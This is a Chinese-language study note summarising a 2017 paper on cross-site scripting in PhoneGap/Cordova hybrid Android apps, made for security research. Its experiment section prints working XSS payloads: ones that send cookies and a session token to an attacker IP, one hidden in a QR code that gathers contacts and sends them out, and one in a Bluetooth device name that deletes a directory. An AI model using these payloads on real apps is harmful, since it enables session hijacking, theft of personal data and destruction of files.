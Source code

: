 ```yaml
---
title: Cross-site Scripting Attacks on Android Hybrid Applications
tags: [Meeting Paper, NTU]

category: "Survey Papers/Android + Security"
---
```


# Cross-site Scripting Attacks on Android Hybrid Applications
<!-- more -->
:::info
Bao, W., Yao, W., Zong, M., & Wang, D. (2017, March). Cross-site scripting attacks on android hybrid applications. In Proceedings of the 2017 International Conference on Cryptography, Security and Privacy (pp. 56-61).
:::

這一篇論文雖然很舊了，但還是蠻有趣的

## Introduction
他在講的是現在市面上的App通常會用一些像是Apache Cordova(早期叫做PhoneGap)這類型的Hybrid框架製作一款App，但是PhoneGap的做法是利用WebView渲染畫面，因此就勢必會出現XSS相關的攻擊，這一篇論文就是在探討如何達成攻擊，以及受害範圍有多廣
* Gartner 的一份報告稱，Hybrid App在基於 HTML5 的 Web  App和本機 App之間提供了平衡，到 2016 年，將在超過 50% 的行動 App中使用
* 為了美化 UI 並在 JavaScript 程式碼中使用行動裝置的原生功能，Hybrid App必須包含第三方元件，而且它們的程式碼可能不可靠。
* 在本文的其餘部分，我們首先對WebView和PhoneGap框架的漏洞進行深入分析。 然後根據我們日常生活中行動應用的使用場景，建立了XSS攻擊混合應用的一般流程。 攻擊結果表明，對Hybrid App的 XSS 攻擊可能會對使用者的行動裝置造成更大的破壞性結果。

## Background
* What is PhoneGap?
    ![圖片](https://hackmd.io/_uploads/rJsdoZWX0.png)
    上圖顯示了PhoneGap App的架構以及如何和device component互動，當Hybrid App的某個功能需要使用 PhoneGap API 時， App可以使用 JavaScript 程式碼呼叫 API，然後 App中的特殊層將 PhoneGap API 呼叫轉換為適合幕後特定功能的device API。

## Proposed Method
* How XSS attack success on PhoneGap's App?
    ![圖片](https://hackmd.io/_uploads/SyPtsW-7R.png)
    有兩種方是可以達成這個攻擊
    * 首先從上圖可以知道，外部的資料有很多種型態，可能是一般文字、QRcode、藍牙等等媒介，而當傳送的資料出現malicious code的時候，PhoneGap Interface的App就會接收這些有問題的資料，並且直接被WebView所render，此時attacker就可以直接根據傳送的payload達到竊取機敏資料的目的
        > 在使用者的幫助下注入程式碼。 當使用者開啟將行動裝置連接到外界的通道時，將提供存取權限以允許來自另一個裝置的攻擊。 惡意程式碼是透過在不知不覺中與另一個裝置互動來注入的，然後按照與第一個裝置類似的流程來實現攻擊。
    * 另外一種則是直接嵌入有問題的code在網頁中，等到使用者瀏覽這個網頁的時候就會被PhoneGap的WebView所Render，達成和上面一樣的效果，類似傳統的攻擊，受害範圍則是cookies, session hijacking, location leaking...，用的function是`document.cookie`, `write()`, `appendChilld()`, `script` tag

## Experiment
作者提到，為了分析一些可能受到XSS攻擊的應用場景，這些 App都是使用PhoneGap框架開發的混合 App。 由於Google Play提供的大部分PhoneGap App要麼沒有使用某些存在漏洞的PhoneGap插件，要麼不顯示攻擊效果，因此很難使用真實的 App進行演示。 因此，他們demo了對他們自己的PhoneGap App的攻擊

### Cookie Stealing and Session Hijacking
作者把malicious code插在簡單的comment management system中，這個App是PhoneGap Framework做的，而且有storage XSS漏洞。如果這個 App是基於native language的，那麼JavaScript code將永遠不會被執行。 但是，在此 PhoneGap  App中，如果 App使用任何易受攻擊的 API 來顯示評論，則程式碼將在 WebView 內執行。
![圖片1](https://hackmd.io/_uploads/SJ6ehb-mR.png)
* 左邊的圖片:
    ```javascript!
    <script>alert(document.cookie)</script>
    ```
    網頁沒有任何異常情況下，作者只使用"append()" API為網頁新增註解。 透過JQuery API顯示評論字段，然後同時觸發注入的程式碼。 顯然，"append()" API 並不安全。 "innerHTML" API 比"append()"更安全，並且不會運行"script"標籤內的程式碼，因此作者可以使用"innerHTML" API 來替換。
* 中間的圖片:
    這就是用替換成innerHTML的結果，會發現這次的攻擊就沒有成功
* 右邊的圖片:
    ```javascript!
    <img src=x onerror= "alert(document.cookie )">
    ```
    但我們還是可以改變payload，讓攻擊可以成功，也就是用上述提到的第二列payload，結果就會如最右邊的截圖
---
當然我們也可以嘗試把得到的敏感資訊透過第三個payload傳出去給attacker，得到的response如下
```javascript!
<img src=x onerror= "new Image().src='http://10.103.30.97:80/cookies/attacker.php?cookie='%2bdocument.cookie">
```
![圖片](https://hackmd.io/_uploads/HJ9W2WZmC.png)
Attacker's Server Receive:
```!
http://10.103.30.97/cookies/manage.php?name=Admin&token=e3afed0047b08059d0fada10f400c1e5
```

### Steal Contact Data
這次攻擊的標的是QRcode，我們可以把惡意的code嵌入在QRcode當中，如果有利用PhoneGap的App掃描到這個QRcode，因為他是在WebView中進行render，所以這個malicious code會被triggered，這個App使用的是`phonegap-plugin-barcodescanner`這個plugin，當程式碼顯示時，`img`的`onerror`事件將會被觸發，然後使用者的聯絡資料將會傳送給攻擊者。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "navigator.contacts.find(['displayName','phoneNumbers'],
        function(c){
        r='';
            for(i=0;c[i];i++){
                if(c[i].phoneNumbers&&c[i].phoneNumbers.length){
                    r+=c[i].displayName+c[i].phoneNumbers[0].value+'\n';
            }}
            alert(r);
        new Image().src='http://10.103.30.97/c.php?d='+r; })" >
    ```
如果是用Native Language寫的App就會如左邊的圖片那樣只有顯示這個QRcode儲存的資訊，但如果是用PhoneGap寫的App，經過WebView render出來的結果，就會顯示手機的聯絡人資訊。他是用`navigator.contacts.find`這個API去呼叫PhoneGap的聯絡人plugin的Java code來搜尋使用者的聯絡人
![圖片2](https://hackmd.io/_uploads/B158hZWmR.png)

### Delete Files
這一次換成利用藍牙這個標的達成攻擊，原文提到: 
> 一般來說，如果一個應用程式具有藍牙傳輸功能，它必須能夠讀取和寫入用戶行動裝置上的文件

為了demo攻擊的效果，作者使用`cordova-plugin-bluetooth-serial`插件和`cordova-plugin-file`插件開發了一個PhoneGap應用程式。藍牙裝置的名稱是透過`innerHTML`API顯示的，安全性不夠，攻擊者可以將藍牙裝置的名稱更改為惡意程式碼來實現攻擊。 並且與前兩種設計類似的是再次使用了`onerror`事件。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "window.requestFileSystem(LocalFileSystem.PERSISTENT,0
        ,function(f){
            f.root.getDirectory('ID_5',null,
                function (e){
                    e.removeRecursively(
                        function(){
                            alert('Delete ID_5 Success!')
                    },null); },null); },null);">
    ```

同樣的如果用native app進行連線，就不會遇到攻擊的問題(如左圖)，但如果是用右圖的PhoneGap設計的App，`window.requestFileSystem()`要求系統存取根檔案系統並傳回一個對象，該物件儲存在`FileSystem`變數f中。 它的 root 屬性包含一個`DirectoryEntry`對象，表示目前檔案系統的根目錄。 所以我們使用`f.root.getDirectory()`來搜尋根目錄中的`ID_5`目錄。 當找到目錄時，將回傳值儲存在`DirectEntry`物件e中，並呼叫第5行至第9行中的回呼函數。 然後`ID_5`目錄的`DirectEntry`物件呼叫其名為`removeRecurively()`的方法來刪除`ID_5`中的所有檔案。 第8行，右圖顯示指定目錄刪除成功的通知。 
![圖片3](https://hackmd.io/_uploads/rkNt3--mR.png)